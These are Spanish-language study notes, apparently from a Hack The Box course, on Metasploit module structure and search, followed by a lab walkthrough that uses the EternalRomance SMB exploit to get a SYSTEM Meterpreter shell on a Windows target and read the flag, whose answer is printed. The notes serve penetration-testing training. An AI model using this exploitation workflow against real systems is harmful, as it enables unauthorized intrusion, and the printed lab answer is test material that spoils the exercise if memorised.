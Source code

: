 Los módulos en metasploit siguen la siguiente estructura: 

```shell-session
<No.> <type>/<os>/<service>/<name>
```

Por ejemplo:
```shell-session
794   exploit/windows/ftp/scriptftp_list
```

## No
Se utiliza para identificar y seleccionar el módulo

## Type

Es la clasificación principal de los módulos de Metasploit; indica qué hace cada módulo.
Tipos y qué hacen:
- Auxiliary: escaneos, fuzzing, sniffing y tareas administrativas (ayuda extra).
- Encoders: transforman/aseguran que los payloads lleguen intactos.
- Exploits: explotan vulnerabilidades para permitir la entrega del payload.
- NOPs: relleno (no-op) para mantener tamaños de payload consistentes.
- Payloads: código que se ejecuta en remoto y conecta de vuelta (p. ej. shell).
- Plugins: scripts adicionales que se integran en msfconsole.

Nota importante: el comando use <nº> (es decir, seleccionar y ejecutar un módulo interactivo) solo sirve con los tipos Auxiliary, Exploits y Post (esos son los “iniciadores” o módulos con los que puedes interactuar directamente).

## OS
Define el sistema operativo contra el que atacará el módulo

## Service
Indica el servicio vulnerable al que se atacará

## Name
Nombra al módulo


# Búsqueda por exploits concretos
Podemos utilizar la siguiente estructura para buscar exploits:
```shell-session
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
```


Dentro de *msfconsole*; dentro puedo ejecutar: 
```
setg RHOST 1.2.3.4
```

Para que el RHOST cuando cambie de módulo no se pierda a no ser que se cierre la sesión de metasploit.

**1. Use the Metasploit-Framework to exploit the target with EternalRomance. Find the flag.txt file on Administrator's desktop and submit the contents as the answer.**

Entro a metasploit (*msfconsole*).
Hago un "search EternalRomance"
y selecciono el módulo:
```
exploit(windows/smb/ms17_010_psexec)
```

Pongo como RHOST la máquina víctima:
```
set RHOSTS 10.129.114.100
```

Y importantísimo! Como LHOST pongo la IP de la máquina atacante en al red de la máquina víctima:
```
set LHOST 10.10.14.104
```

Nos devuelve una sesión de meterpreter y ejecuto "shell" para obtener una terminal interactiva.

Dentro de la sesión de windows, si hago un *whoami* me encuentro que estoy dentro de la sesión de "nt authority\system".

Y la ubico en:
```
type C:\Users\Administrator\Desktop\flag.txt
	HTB{MSF-W1nD0w5-3xPL01t4t10n}
```

Siendo al respuesta: *"HTB{MSF-W1nD0w5-3xPL01t4t10n}"